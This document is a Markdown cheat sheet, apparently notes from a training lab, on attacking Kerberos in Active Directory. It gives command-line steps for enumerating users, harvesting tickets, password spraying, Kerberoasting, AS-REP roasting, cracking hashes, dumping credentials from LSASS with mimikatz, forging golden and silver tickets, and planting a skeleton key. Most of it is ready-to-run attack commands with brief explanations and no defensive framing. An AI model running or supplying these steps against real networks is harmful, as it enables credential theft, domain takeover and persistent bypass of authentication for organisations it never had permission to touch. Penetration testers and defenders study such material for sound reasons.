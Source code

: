 ## Kerbrute
Used to enumerate active directory users with kerberos pre-authentication.
https://github.com/ropnop/kerbrute/releases
Command for enumerating user using dictionary:
`./kerbrute userenum --dc DOMAIN_CONTROLLER -d DOMAIN_NAME User.txt`

## Rubeus
Rubeus is a powerful tool for attacking Kerberos.Rubeus has a wide variety of attacks and features that allow it to be a very versatile tool for attacking Kerberos. Just some of the many tools and attacks include overpass the hash, ticket requests and renewals, ticket management, ticket extraction, harvesting, pass the ticket, AS-REP Roasting, and Kerberoasting.
https://github.com/GhostPack/Rubeus
Rubeus must be installed on the target machine to works
### Harvesting tickets
Harvesting gathers tickets that are being transferred to the KDC and saves them for use in other attacks such as the pass the ticket attack.
The syntax:
`Rubeus.exe harvest /interval:30`
This will harvest TGT every 30 seconds

### Brute-Force/Password Spraying
Don't forget to add the IP of the domain controller to the host file
`echo 10.10.168.43 CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts`

Syntax for password spraying:
`Rubeus.exe brute /password:Password1 /noticket`

### Kerberoasting
As a kerberos domain user, request a service ticket for any service with an SPN then use the ticket to crack the service password.
`Rubeus.exe kerberoast`
`hashcat -m 13100 -a 0 hash.txt Pass.txt`

### Kerberoasting using impacket
With impacket 0.9.19: https://github.com/SecureAuthCorp/impacket/releases/tag/impacket_0_9_19 installed
```bash
cd /usr/share/doc/python3-impacket/examples/
sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.168.43 -request

```
The advantage of using impacket is that you don't need to be in the target machine.

### AS-REP Roasting
Very similar to Kerberoasting, AS-REP Roasting dumps the krbasrep5 hashes of user accounts that have Kerberos pre-authentication disabled. Unlike Kerberoasting these users do not have to be service accounts the only requirement to be able to AS-REP roast a user is the user must have pre-authentication disabled.
`Rubeus.exe asreproast`
Insert 23$ after \$krb5asrep\$ so that the first line will be \$krb5asrep\$23\$User.....
`hashcat -m 18200 hash.txt Pass.txt`

## mimikatz
Mimikatz is a very popular and powerful post-exploitation tool most commonly used for dumping user credentials inside of an active directory network

mimikatz also need to be installed/placed in the target active directory network.

### Pass the ticket
First mimikatz will dump the TGT from the LSASS memory of the machine.
It will give a .kirbi ticket that can be used to gain domain admin if the domain admin ticket is in the LSASS memory. The ticket used to impersonate that account ticket owner.

First dump the ticket:
```shell
mimikatz.exe
sekurlsa::ticket /export
```
this will dump all ticket and save it in the current directory

Then the PTT:
```shell
mimikatz.exe
kerberos::ptt <ticket>
klist   # in cmd/out of mimikatz, check if the ptt is successfull
```

### Golden/Silver ticket
a silver ticket is limited to the service that is targeted whereas a golden ticket has access to any Kerberos service.
A KRBTGT is the service account for the KDC this is the Key Distribution Center that issues all of the tickets to the clients. If you impersonate this account and create a golden ticket form the KRBTGT you give yourself the ability to create a service ticket for anything you want

A golden ticket attack works by dumping the ticket-granting ticket of any user on the domain this would preferably be a domain admin however for a golden ticket you would dump the krbtgt ticket and for a silver ticket, you would dump any service or domain admin ticket. This will provide you with the service/domain admin account's SID or security identifier that is a unique identifier for each user account, as well as the NTLM hash. You then use these details inside of a mimikatz golden ticket attack in order to create a TGT that impersonates the given service account information.

In mimikatz:
`lsadump::lsa /inject /name:krbtgt` - This will dump the hash as well as the security identifier needed to create a Golden Ticket. To create a silver ticket you need to change the /name: to dump the hash of either a domain admin account or a service account such as the SQLService account.

Then:
`kerberos::golden /user:administrator /domain:controller.local /sid:S-1-5-21-432953485-3795405108-1502158860 /krbtgt:72cd714611b64cd4d5550cd2759db3f6 /id:500`
Where sid is located in the domain field and krbtgt is the NTLM hash field from the previous command. The id 500 for golden ticket, while 1103 is for silver ticket

### skeleton key
Skeleton keys is basically setting up a rootkit to bypass authentication, placing the defined key, mimikatz by default, to be used for any active directory user.
```bash
mimikatz.exe
privilege::debug
misc::skeleton
```
Then you can access anythin in the forest with:
`net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz`
or `dir \\Desktop-1\c$ /user:Machine1 mimikatz`
